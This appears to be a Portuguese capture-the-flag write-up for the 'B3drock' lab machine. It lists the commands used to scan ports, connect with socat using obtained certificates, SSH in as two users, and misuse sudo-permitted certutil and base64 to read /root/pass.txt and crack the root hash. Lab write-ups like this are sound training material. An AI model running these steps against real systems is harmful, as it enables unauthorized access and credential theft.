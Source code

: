 # B3drock

* ### Scan de portas - Verificando quais portas estão abertas.
  
```bash
rustscan -a 10.10.60.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/010eeb0a-7482-4af6-adf8-e97b40288b44)

![image](https://github.com/lufffe/Writeups/assets/90646635/b8137ddb-0ad2-4753-b910-da78aed1faa1)


```bash
nmap -A 10.10.60.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6ebc3077-d81c-4ff3-813c-fc73a9407db6)

```bash
nc 10.10.60.35 9009
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4120b5e2-ec27-4a2e-a38f-a62bb2407f21)

![image](https://github.com/lufffe/Writeups/assets/90646635/074d4360-907b-4bd6-8f7f-b14011c6d436)

* ### Coloque as informações adquiridas nos arquivos.
```bash
code certificate
```

```bash
code key
```

```bash
socat stdio ssl:10.10.60.35:54321,cert=certificate,key=key,verify=0
```
![image](https://github.com/lufffe/Writeups/assets/90646635/66281428-9a70-42a8-a60e-75e29a6efe8c)

* ### Coloque as informações adquiridas nos arquivos.
```bash
ssh barney@10.10.60.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/11852891-30dd-4e7f-90d5-aaa85073174e)

* ### Flag Barney.
```bash
cat barney.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/eb0ca3aa-ee76-4aa0-b8e3-aaef0963fd01)

```bash
barney@b3dr0ck:~$ sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/2236979a-4176-4be0-8620-4e84f9ed6c40)

```bash
barney@b3dr0ck:/home/fred$ certutil -h
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6dd5bb6c-7d8d-43ed-8167-0bab60e957c9)

```bash
barney@b3dr0ck:/home/fred$ certutil ls
```
![image](https://github.com/lufffe/Writeups/assets/90646635/099f1a1e-eb10-4046-8d31-d642f972029c)

```bash
barney@b3dr0ck:/home/fred$ sudo certutil -a fred.csr.pem
```
![image](https://github.com/lufffe/Writeups/assets/90646635/3480cfc0-0550-436b-85a3-e26114b91022)

```bash
socat stdio ssl:10.10.60.35:54321,cert=certificatefred,key=keyfred,verify=0
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0779a22a-8d97-4794-b4be-1ab5a7bf1442)

```bash
ssh fred@10.10.60.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f3d75a4c-4c83-4d56-9d06-8f41a65096c5)

```bash
fred@b3dr0ck:~$ sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/86c1375c-a165-464c-a9f5-969340840d09)


```bash
sudo /usr/bin/base32 /root/pass.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/2f5e76a2-9407-48c9-a70a-0e73dc059cb6)

```bash
sudo /usr/bin/base64 /root/pass.txt | base64 -d
```
![image](https://github.com/lufffe/Writeups/assets/90646635/1412f7f8-7c50-4a9e-bf7b-1527e0354aa3)

```bash
sudo /usr/bin/base64 /root/pass.txt | base64 -d | base32 -d
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d8161a52-a4d1-4337-b810-305f76443d79)

```bash
sudo /usr/bin/base64 /root/pass.txt | base64 -d | base32 -d | base64 -d
```
![image](https://github.com/lufffe/Writeups/assets/90646635/bd918c3d-f3db-4e86-bb88-df31aecd8872)

* ### Decode hash.
https://crackstation.net/

```bash
su
```
![image](https://github.com/lufffe/Writeups/assets/90646635/a438990a-f757-4650-a3d6-5f23f85a0e47)

```bash
cat /root/root.txt
```
